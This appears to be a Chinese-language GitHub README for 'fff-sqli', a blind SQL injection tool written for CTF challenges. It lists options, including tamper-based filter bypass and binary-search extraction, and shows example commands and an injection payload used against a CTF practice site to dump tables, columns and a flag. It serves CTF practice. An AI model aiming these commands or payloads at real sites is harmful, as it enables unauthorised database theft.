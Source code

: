 # fff-sqli
A tool for CTF's bind-sqli challenge

CTF的盲注总是要重新修改脚本，不胜其烦。于是写了这个工具，在Kali上测试通过。参数作以下几点说明

## 参数说明

-  -u参数是地址
- --tales 1 获取当前数据库所有表名
- --columns flag 获取flag表的所有列名
- -T user -C password 获取user表password列的值
- --headers 自定义请求头
- --data 以POST方式提交时候，所POST的数据,加星号* 表示payload的位置 如 username=admin'||*&password=admin
- -v 1 输出payload
- --sub 1 sub参数表示对截取字符串的函数进行选择，内置四种
- --tamper 调用tamper文件里bypass脚本，调用其tamper函数对payload进行处理
- --way 1 默认0，为1时采用二分法进行盲注
- --prefix --suffix对payload进行拼接
- --keywords 判断 true和false的关键词
- --proxy 自定义代理
- --cookie 自定义cookie

## 使用示例

注入站点：http://ctf5.shiyanbar.com/web/index_3.php

keywords: Hello

Usage: 

获取表名：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" --tables 1 --way 1`

获取列名：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" --columns flag --way 1`

获取数据：

`python fffsqli.py -u "http://ctf5.shiyanbar.com/web/index_3.php" --prefx "'||" --suffix "||'"  --keywords "Hello" -T flag -C flag --way 1`

## 截图展示


![](https://github.com/deenrookie/fff-sqli/blob/master/images/2017-11-23-185739_791x552_scrot.png)
![](https://github.com/deenrookie/fff-sqli/blob/master/images/2017-11-23-190223_792x546_scrot.png)

